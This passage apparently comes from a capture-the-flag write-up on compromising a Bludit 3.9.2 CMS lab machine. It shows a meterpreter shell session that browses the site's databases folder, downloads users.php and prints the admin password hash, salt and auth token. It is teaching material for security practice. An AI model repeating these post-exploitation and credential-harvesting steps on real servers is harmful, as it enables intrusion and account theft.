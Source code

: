 After doing a few quick configurations of the parameters for the exploit, I had a meterpreter shell.

## Road to User

```text
meterpreter > ls
Listing: /var/www/bludit-3.9.2/bl-content/tmp
=============================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-08-08 22:35:16 -0400  thumbnails

meterpreter > pwd
/var/www/bludit-3.9.2/bl-content/tmp
meterpreter > cd ..
meterpreter > cd databases
meterpreter > ls
Listing: /var/www/bludit-3.9.2/bl-content/databases
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  438    fil   2020-04-28 06:24:44 -0400  categories.php
100644/rw-r--r--  3437   fil   2020-04-28 06:35:30 -0400  pages.php
40755/rwxr-xr-x   4096   dir   2019-11-27 06:53:41 -0500  plugins
100644/rw-r--r--  98831  fil   2020-08-08 22:39:58 -0400  security.php
100644/rw-r--r--  1319   fil   2020-05-19 06:28:54 -0400  site.php
100644/rw-r--r--  2276   fil   2020-04-28 06:24:44 -0400  syslog.php
100644/rw-r--r--  52     fil   2020-04-28 06:24:44 -0400  tags.php
100644/rw-r--r--  1268   fil   2020-04-28 06:20:36 -0400  users.php

meterpreter > download users.php
[*] Downloading: users.php -> users.php
[*] Downloaded 1.24 KiB of 1.24 KiB (100.0%): users.php -> users.php
[*] download   : users.php -> users.php
```

The file `users.php` in the `/var/www/bludit-3.9.2/bl-content/databases/` folder sounded like a likely place to find some information about...users.

```text
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
```